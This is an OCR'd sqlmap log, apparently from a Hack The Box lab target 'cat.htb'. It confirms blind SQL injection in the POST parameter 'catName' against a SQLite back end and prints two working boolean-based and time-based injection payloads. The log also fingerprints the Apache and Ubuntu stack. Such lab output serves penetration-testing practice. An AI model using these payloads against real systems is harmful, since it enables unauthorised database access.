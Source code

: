 ```c
[14:47:27] [INFO] testing connection to the target URL
[14:47:27] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:47:27] [INFO] testing if the target URL content is stable
[14:47:28] [INFO] target URL content is stable
[14:47:28] [WARNING] heuristic (basic) test shows that POST parameter 'catName' might not be injectable
[14:47:28] [INFO] testing for SQL injection on POST parameter 'catName'
[14:47:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:47:29] [INFO] POST parameter 'catName' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[14:47:29] [INFO] testing 'Generic inline queries'
[14:47:29] [INFO] testing 'SQLite inline queries'
[14:47:29] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[14:47:29] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[14:47:29] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[14:47:39] [INFO] POST parameter 'catName' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[14:47:39] [INFO] checking if the injection point on POST parameter 'catName' is a false positive
POST parameter 'catName' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=asdf'||(SELECT CHAR(118,76,85,108) WHERE 5131=5131 AND 7518=7518)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=asdf'||(SELECT CHAR(109,117,103,82) WHERE 9542=9542 AND 3953=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[14:47:40] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[14:47:40] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 42 times
[14:47:40] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 14:47:40 /2025-02-02/
```
